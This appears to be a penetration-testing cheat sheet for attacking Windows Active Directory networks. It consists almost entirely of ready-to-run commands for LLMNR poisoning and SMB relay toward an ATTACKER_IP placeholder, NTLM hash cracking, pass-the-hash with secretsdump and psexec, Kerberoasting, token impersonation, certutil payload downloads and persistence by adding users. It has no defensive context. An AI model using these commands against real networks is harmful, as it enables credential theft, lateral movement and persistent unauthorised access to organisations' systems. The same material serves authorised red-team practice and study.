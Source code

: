 # LLMNR Poisoning Attack

```shell
responder -I <interface> -rdwv
# Target -> File Explorer -> \\ATTACKER_IP
hashcat -m 5600 ntlm_hash.txt /usr/share/wordlists/rockyou.txt
```

---

# SMB Relay Attack

```shell
nmap --script=smb2-security-mode.nse -p 445 <IP_ADDR>
nano /etc/responder/Responder.conf
> SMB = Off
> HTTP = Off

responder -I <interface> -rdwv
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.py -smb2support
# Target -> File Explorer -> \\ATTACKER_IP
```

---

# Gaining Shell Access

```shell
msfconsole -> use exploit/windows/smb/psexec
python3 /usr/share/doc/python3-impacket/examples/psexec.py <domain>/<user>:<password>@<IP_ADDR>
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py <domain>/<user>:<password>@<IP_ADDR>
python3 /usr/share/doc/python3-impacket/examples/smbexec.py <domain>/<user>:<password>@<IP_ADDR>
```

---

# IPv6 Attacks

```shell
mitm6 -d <domain>
python3 /usr/share/doc/python3-impacket/ntlmrelayx.py -6 -t ldaps://<IP_ADDR> -wh <domain> -l <name>
# reboot
```

---

# PowerView

```powershell
Get-NetDomain
Get-NetDomainController
Get-DomainPolicy
Get-NetUser
Get-UserProperty
Get-NetComputer
Get-NetGroup
Get-NetGroupMember
Invoke-ShareFinder
Get-NetGPO
```

---

# Bloodhound

```powershell
powershell -ep bypass
.\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <domain> -ZipFileName <filename.zip>
```

---

# Pass The Password Attack

```shell
crackmapexec 192.168.1.0/24 -u <username> -d <domain> -p <password>
python3 /usr/share/doc/python3-impacket/examples/psexec.py <domain>/<user>:<password>@<IP_ADDR>
```

---

# Pass The Hash Attack

```shell
python3 /usr/shares/doc/python3-impacket/examples/secretsdump.py <domain>/<user>:<password>@<IP_ADDR>
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
crackmapexec 192.168.1.0/24 -u <user> -H <HASH> --local
python3 /usr/shares/doc/python3-impacket/examples/psexec.py <user>@<IP_ADDR> -hashes <HASH>
```

---

# Token Impersonation

```shell
load incognito
list_tokens -u
impersonate_token <domain>\\<user>
```

---

# Kerberoasting

```shell
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP_ADDR> -request
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

---

# GPP (Group Policy Preferences) Attack

```shell
gpp-decrypt <password>
```

---

# PrintNightmare

```powershell
# https://github.com/cube0x0/CVE-2021-1675
```

---

# ZeroLogon

```powershell
# https://github.com/dirkjanm/CVE-2020-1472
```

---

# File Transfers Review

```powershell
# Certutil
certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
# HTTP
python -m http.server
# FTP
python -m pyftpdlib 21
# Linux
wget
```

--- 

# Maintaining Access

- Persistence Scripts
1. run persistence -h
2. exploit/windows/local/persistence
3. exploit/windows/local/registry_persistence

- Scheduled Tasks
1. run schtaskabuse
2. Add a user
3. net user <user> <password> /add